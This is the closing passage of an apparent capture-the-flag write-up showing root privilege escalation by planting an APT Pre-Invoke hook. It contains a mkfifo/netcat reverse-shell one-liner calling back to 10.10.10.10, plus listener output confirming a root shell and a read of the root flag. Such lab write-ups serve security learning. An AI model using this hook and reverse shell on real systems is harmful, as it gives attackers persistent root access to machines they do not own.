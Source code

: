 > **Pre-Invoke**, **Post-Invoke**
>
> This is a list of shell commands to run before/after invoking [dpkg(1)](https://manpages.debian.org/testing/dpkg/dpkg.1.en.html). Like options this must be specified in list notation. The commands are invoked in order using /bin/sh; should any fail APT will abort.

```bash
echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f"};' > /etc/apt/apt.conf.d/writer
```

after some time, a connection is received, probably due to a system timer updating packages

```bash
$ nc -lnvp 4443                                                                                                     
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.11.101] 49836
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
<redacted>
```

I hope you guys have enjoyed it!

See you in the next post :wink:

